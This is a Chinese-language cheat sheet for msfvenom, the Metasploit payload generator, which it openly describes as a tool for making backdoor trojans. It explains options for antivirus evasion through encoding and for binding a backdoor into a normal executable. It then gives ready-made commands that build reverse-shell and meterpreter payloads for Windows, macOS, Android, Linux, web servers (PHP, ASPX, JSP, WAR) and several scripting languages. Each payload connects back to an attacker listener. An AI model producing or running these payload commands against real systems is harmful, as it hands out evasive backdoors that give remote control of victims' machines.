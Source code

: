 Kali 中的 msfvenom 取代了 msfpayload 和 msfencode，常用于生成后门木马

msfpayload 是 MSF 攻击荷载生成器，用于生成 shellcode 和可执行代码。  
msfencode 是 MSF 编码器。

## 一 、msfvenom 常用参数

-l  
列出指定模块的所有可用资源,模块类型包括: payloads, encoders, nops, all

-p  
指定需要使用的 payload(攻击荷载)。

-f  
指定输出格式

Executable formats:Asp、aspx、aspx-exe、axis2、dll、elf、elf-so、exe、exe-only、exe-service、exe-smallhta-psh、jar、jsp、loop-vbs、macho、msi、msi-nouac、osx-app、psh、psh-cmd、psh-net、psh-reflection、python-reflection、vba、vba-exe、vba-psh、vbs、war；

Transform formats:base32、base64、bash、c、csharp、dw、dword、hex、java、js_be、js_le、num、perl、pl、powershell、ps1、py、python、raw、rb、ruby、sh、vbapplication、vbscript；

-e  
指定需要使用的 encoder（编码器）编码免杀。

-a  
指定 payload 的目标架构

选择架构平台:x86 | x64 | x86_64  
Platforms:windows, netware, android, java, ruby, linux, cisco, solaris, osx, bsd, openbsd, bsdi, netbsd, freebsd, aix, hpux, irix, unix, php, javascript, python, nodejs, firefox, mainframe

-o  
保存 payload 文件输出。

-b  
设定规避字符集，比如: '\x00\xff' 避免使用的字符

-n  
为 payload 预先指定一个 NOP 滑动长度

-s  
设定有效攻击荷载的最大长度生成 payload 的最大长度，就是文件大小。

-i  
指定 payload 的编码次数

-c  
指定一个附加的 win32 shellcode 文件

-x  
指定一个自定义的可执行文件作为模板  
例如：原先有个正常文件 normal.exe 可以通过这个选项把后门捆绑到这个程序上面。

-k  
保护模板程序的动作，注入的 payload 作为一个新的进程运行  
例如：原先有个正常文件 normal.exe 可以通过这个选项把后门捆绑到这个程序上面。

-v  
指定一个自定义的变量，以确定输出格式

---

## 二、各平台生成 Payload 命令

```shell
Windows  
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp  
LHOST=192.168.3.33 LPORT=4444 -e x86/shikata_ga_nai -b '\x00\x0a\xff' -i 10 -f exe -o payload.exe

Mac  
msfvenom -a x86 --platform osx -p osx/x86/shell_reverse_tcp LHOST=192.168.3.33 LPORT=4444 -f macho -o payload.macho

Android  
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4567 -o payload.apk

Powershell  
msfvenom -a x86 --platform Windows -p windows/powershell_reverse_tcp LHOST=192.168.1.1 LPORT=8888 -e cmd/powershell_base64 -i 3 -f raw -o payload.ps1

Linux  
msfvenom -a x86 --platform Linux -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4567 -f elf -o payload.elf

php  
msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.1.1 LPORT=8888 -f raw > shell.php

aspx  
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=8888 -f aspx -o payload.aspx

JSP  
msfvenom --platform java -p java/jsp_shell_reverse_tcp LHOST=192.168.1.1 LPORT=4567 -f raw -o payload.jsp

war  
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.1 LPORT=4567 -f raw - o payload.war

nodejs  
msfvenom -p nodejs/shell_reverse_tcp LHOST=192.168.1.1 LPORT=4567 -f raw -o payload.js

python  
msfvenom -p python/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4567 -f raw -o payload.py

perl  
msfvenom -p cmd/unix/reverse_perl LHOST=192.168.1.1 LPORT=4567 -f raw -o payload.pl

ruby  
msfvenom -p ruby/shell_reverse_tcp LHOST=192.168.1.1 LPORT=4567 -f raw -o payload.rb

lua  
msfvenom -p cmd/unix/reverse_lua LHOST=192.168.1.1 LPORT=4567 -f raw -o payload.lua

windows shellcode  
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4567 -f c

linux shellcode  
msfvenom -a x86 --platform Linux -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4567 -f c

mac shellcode  
msfvenom -a x86 --platform osx -p osx/x86/shell_reverse_tcp LHOST=192.168.1.1 LPORT=4567 -f c

```

